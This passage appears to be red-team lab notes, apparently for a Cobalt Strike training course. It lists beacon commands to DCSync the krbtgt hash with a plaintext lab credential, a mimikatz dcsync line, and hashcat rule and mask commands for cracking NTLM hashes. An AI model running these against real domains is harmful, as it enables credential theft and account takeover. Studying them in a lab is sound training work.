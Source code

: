 ### DCSync

```bash
beacon> make_token DEV\nlamb F3rrari
beacon> dcsync dev.cyberbotic.io DEV\krbtgt
beacon> mimikatz @lsadump::dcsync /user:DEV\krbtgt
```

## Wordlists

### Rules

```bash
hashcat.exe -a 0 -m 1000 ntlm.txt rockyou.txt -r rules\add-year.rule
# or -r /usr/share/hashcat/rules/add-months.rule -r /usr/share/hashcat/rules/add-year.rule
```

### Masks

```bash
? | Charset
===+=========
l | abcdefghijklmnopqrstuvwxyz
u | ABCDEFGHIJKLMNOPQRSTUVWXYZ
d | 0123456789
h | 0123456789abcdef
H | 0123456789ABCDEF
s | !"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
a | ?l?u?d?s
b | 0x00 - 0xff
```

```bash
hashcat.exe -a 3 -m 1000 C:\Temp\ntlm.txt ?u?l?l?l?l?l?l?l?d
```

`-1 ?d?s` defines a custom charset (digits and specials)

`?u?l?l?l?l?l?l?l?1` is the mask, where ?1 is the custom charset.

```bash
# Custom
hashcat.exe -a 3 -m 1000 ntlm.txt -1 ?d?s ?u?l?l?l?l?l?l?l?1
```

Also you can write your file.hcmask

```bash
ZeroPointSecurity?d
ZeroPointSecurity?d?d
ZeroPointSecurity?d?d?d
ZeroPointSecurity?d?d?d?d

# or 
?d?s,?u?l?l?l?l?1
?d?s,?u?l?l?l?l?l?1
?d?s,?u?l?l?l?l?l?l?1
?d?s,?u?l?l?l?l?l?l?l?1
?d?s,?u?l?l?l?l?l?l?l?l?1
```
